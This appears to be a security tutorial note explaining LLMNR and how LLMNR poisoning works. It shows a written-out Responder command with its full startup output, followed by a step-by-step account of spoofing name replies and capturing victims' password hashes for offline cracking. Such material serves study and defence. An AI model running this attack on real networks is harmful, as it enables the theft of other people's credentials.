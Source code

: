 ![](assets/Pasted%20image%2020241216164444.png)

# [What's LLMNR?]()

**LLMNR** stands for **Link-Local Multicast Name Resolution**. This is used if the DNS is not in use.  It is a protocol used on local networks to resolve the names of computers (hostnames) to their respective IP addresses without requiring a DNS server. LLMNR operates on the local link (Layer 2) and uses multicast communication to perform name resolution. It is primarily used in small networks or environments where a DNS server is unavailable. However LLMNR can pose security risks: It is vulnerable to **man-in-the-middle (MITM)** attacks and spoofing.

# [LLMNR Poisoning]()

In this attacker tricks a computer on a local network into sending sensitive information, like **usernames** and **password hashes**, to the attacker's system instead of the intended destination.

## [How does it work?]()

- Attacker starts responder with below command. Responder listens on client requests and respond saying it has the resource client is asking. 

```
┌─[✗]─[hexadivine@parrot]─[~]
└──╼ $ sudo responder -I wlp0s20f3 -Pwd
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [wlp0s20f3]
    Responder IP               [192.168.0.105]
    Responder IPv6             [fe80::7635:bf9e:3643:497f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-QMUVSR50L9S]
    Responder Domain Name      [UJW2.LOCAL]
    Responder DCE-RPC Port     [46659]

[+] Listening for events...

[*] [DHCP] Found DHCP server IP: 192.168.0.1, now waiting for incoming requests...
```

- **LLMNR request**: When a computer on the network cannot resolve a hostname (e.g., "FileServer") via DNS, it broadcasts an LLMNR request, asking: _"Does anyone here know the IP for 'FileServer'?"_

![](assets/Pasted%20image%2020241216165512.png)

-  **Attacker responds**: An attacker intercepts this request and replies falsely: _"Yes, I am 'FileServer'—here’s my IP address!"_

![](assets/Pasted%20image%2020241216165958.png)

-  **Victim connects**: The victim connects to the attacker's machine, thinking it's the legitimate server.

![](assets/Pasted%20image%2020241216170210.png)

-  **Password hash theft**: During this connection attempt, the victim's computer automatically sends its credentials (in hashed form) to authenticate. The attacker can capture these password hashes and attempt to crack them offline.

![](assets/Pasted%20image%2020241216170234.png)

